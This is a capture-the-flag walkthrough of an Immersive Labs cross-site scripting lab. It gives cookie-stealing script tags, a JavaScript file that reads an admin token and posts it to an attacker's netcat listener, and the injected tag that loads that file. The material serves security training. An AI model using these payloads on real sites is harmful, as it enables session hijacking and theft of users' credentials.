 ```yaml
---
date: 2025-04-27
categories: [CTF, ImmersiveLabs]
title: "IML - Cross-Site Scripting: Ep.6 – Further Exploitation"
tags: ['privilege escalation', 'python', 'rce']

description: "Cross-Site Scripting Ep.6 – F - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Cross-Site Scripting: Ep.6 – Further Exploitation


![image1](../resources/81e9facdcd524216bd9db80ea0e500c3.png)

```java
<script>document.location="http://10.102.179.231:8000/?cookie="+document.cookie;</script>
```

![image2](../resources/3e99d7ccbbe9401894e1e7828e79bdfa.png)

- **<u>Token and username received</u>**


![image3](../resources/c892c30a412a46f3948a7fcd73b39bc4.png)

- Create script (script.js)


![image4](../resources/014019cde821452b93fe0722e5ff82f9.png)

```javascript
var sensitive_data = new XMLHttpRequest();
sensitive_data.open("GET", "/admin/token", true);
sensitive_data.responseType = "text";

sensitive_data.onload = () => {
    if (sensitive_data.status >= 200 && sensitive_data.status < 400) {
        var body = sensitive_data.responseText;
        var send_data = new XMLHttpRequest();
        send_data.open("POST", "http://<IP>:<KALI_NC_PORT>", true);
        send_data.send("page_body=" + body);
    } else {
        // do nothing
    }
};

sensitive_data.send();

```


- Change IP and Port

- Run Python server in same dir as script


![image5](../resources/523d0853f9204c1ba8a55cdd0cdfba1f.png)

- Set up nc listener on port specified in script


![image6](../resources/6b72b2076e2340fd8b4c74640bacaccd.png)

- Send email with the src tag (kali IP and the Port of the python server)


![image7](../resources/0f50e13dc0e248338bfe7cca969c95b5.png)

```javascript
<script src="http://<kali IP>:<kali port>/script.js"></script>
```

- *Sometimes need to reset the machine on this one cus it doesn’t work first time*


![image8](../resources/87e5d6bb27ac4008ab946805aca5235a.png)
